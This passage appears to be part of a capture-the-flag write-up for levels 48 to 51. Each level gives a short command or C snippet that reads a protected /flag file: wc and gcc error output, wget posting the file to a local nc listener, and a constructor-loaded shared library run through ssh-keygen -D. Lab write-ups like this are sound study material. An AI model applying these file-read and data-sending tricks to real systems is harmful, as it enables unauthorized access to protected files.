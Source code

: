 Steps:

```bash
wc --files0-from /flag
```

## Level 48

Steps:

```bash
gcc -x c /flag
```

## Level 49

Steps:

```bash
as /flag
```

## Level 50

Steps:

```bash
nc -l 8888
wget --post-file=/flag localhost:8888
```

## Level 51

Steps:

Create a c file
```c
int main()
{
    puts("Hello");
}

__attribute__((constructor))
int my_function()
{
    puts("Hello");
    sendfile(1, open("/flag", 0), 0, 4096);
}
```

Then compile it with `gcc -shared main.c`. Last, run `ssh-keygen -D ./a.out`
